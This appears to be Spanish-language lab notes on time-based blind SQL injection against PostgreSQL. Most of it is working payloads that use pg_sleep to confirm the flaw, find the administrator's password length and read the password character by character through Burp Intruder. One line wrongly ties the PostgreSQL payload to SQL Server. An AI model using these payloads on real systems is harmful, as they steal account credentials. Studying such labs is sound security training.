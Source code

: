 # Blind SQL injection with time delays

Se puede inyectar codigo con delays de tiempo cambia mucho para cada base de datos

> Las técnicas para desencadenar un retraso de tiempo son muy específicas para el tipo de base de datos que se utiliza. En Microsoft SQL Server, una entrada como la siguiente se puede usar para probar una condición y desencadenar un retraso dependiendo de si la expresión es verdadera:


```
TrackingId=x'||pg_sleep(10)--

```


# Blind SQL injection with time delays and information retrieval 

# Checar si el vulnerable al Ataque Paso 1

Para probar si es vulnerable a este tipo de ataque se pueden utilizar los condicionales

```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
'SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

# Orden de ejecucion en SQL Paso 2 ( para probar existencia de tablas)

> https://programacion.net/articulo/el_orden_de_ejecucion_de_las_queries_en_sql_1032

El orden en que se ejecuta una sentencia SQL nos puede ayudar a checar si existen usuarios y tablas. La siguiente tabla muentra como se va ejecutando una sentencia SQL la primera intruccion que se ejecuta es el from

## Logical Query Processing Phase

Cuando escribes una serie de comandos dentro de una query sql, estos comandos se dividen mediante una fase de procesamiento lógico. Cada fase genera una serie de tablas virtuales que alimentan a la siguiente fase. Por supuesto, dichas tablas virtuales no son visibles por los administradores. Las fases y su orden de ejecución son las siguiente

```
1. FROM
2. ON
3. OUTER
4. WHERE
5. GROUP BY
6. CUBE | ROLLUP
7. HAVING
8. SELECT
9. DISTINCT
10 ORDER BY
11. TOP
```


## Checar Tablas y Sacar informacion 

```
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Por el Orden de ejecucion

```

'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END from users where username='administrator'--;

```

# Extraer los datos Paso 3

Sabiendo que tienemos un password utilizamos el LENGTH() vas mandando al intruder esta peticion cuando la mandes en la pesataña de comumnas activa en donde dice
recived para ver el tiempo que tardo en recibirse para ver donde cambia.

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Para confirmar nada mas 

 ```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--;

```

Para sacar el password que mide 20  mover la posicion del substring moviendo hasta el 20 igual activa la opcion de recived para ver el tiempo en que se tardo y ademas activa que solo se genere una solicitud en burp en el resource pool

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

```

